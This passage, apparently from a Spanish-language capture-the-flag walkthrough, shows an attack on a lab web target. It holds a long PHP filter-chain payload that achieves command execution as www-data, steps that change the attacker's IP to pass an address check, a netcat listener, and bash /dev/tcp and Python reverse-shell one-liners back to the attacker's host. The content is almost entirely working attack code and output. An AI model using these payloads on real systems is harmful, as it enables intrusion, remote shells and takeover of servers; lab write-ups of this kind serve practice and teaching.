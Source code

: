 ```bash
nvert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=whoami
```

En el resultado tenemos exito hemos logrado ejecutar comandos en el objetivo:
```bash
www-data � P�������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@
```

Sabiendo que aceptar la conexio por la ip: **200** procedemos a modificar nuestra ip
```bash
Eliminamos la actual
ip address del 172.17.0.1/16 dev docker0
RTNETLINK answers: Operation not permitted
```

Ahora agregamos la nueva: y ahora tenemos esta ip local:
```bash
sudo ip address add 172.17.0.200/16 dev docker0
```

### Intrusion
Modo escucha para ganar acceso al target:
```bash
nc -nlvp 443
```

Hasta el ultimo de todo el payload colocamos esta instruccion para que puedamos ganar acceso
```bash
# Reverse shell o acceso inicial
php://temp&cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.200/443 <%261'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' &file=<CONTENT_GENERATE>
```

---